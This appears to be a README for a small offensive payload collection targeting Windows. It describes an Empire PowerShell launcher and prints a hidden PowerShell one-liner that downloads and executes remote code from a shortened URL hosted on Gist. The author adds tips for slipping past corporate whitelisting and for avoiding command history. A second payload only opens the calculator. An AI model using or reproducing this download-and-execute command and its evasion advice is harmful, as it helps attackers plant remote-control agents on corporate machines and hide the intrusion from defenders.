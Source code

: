 # PAYLOADS #

- [win]_empire-PS.txt

This Payload will execute an Empire Powershell launcher, which usually I host on Gist and then use google shortener to shorten the URL.
Most corporate environments are whitelisting both gist.github.com and google, so it is easy to deploy an agent in this way. (of course this payload will leave the command `powershell -W Hidden -nop -noni -c "IEX (New-Object Net.Webclient).downloadstring('https://goo.gl/XXXXX')"` into the cmd history. But you just need to execute it in a cmd to avoid it (no history, but takes more time to type).

- [win]_pop-calc.txt

Will pop-up the classic calculator

- More to come...
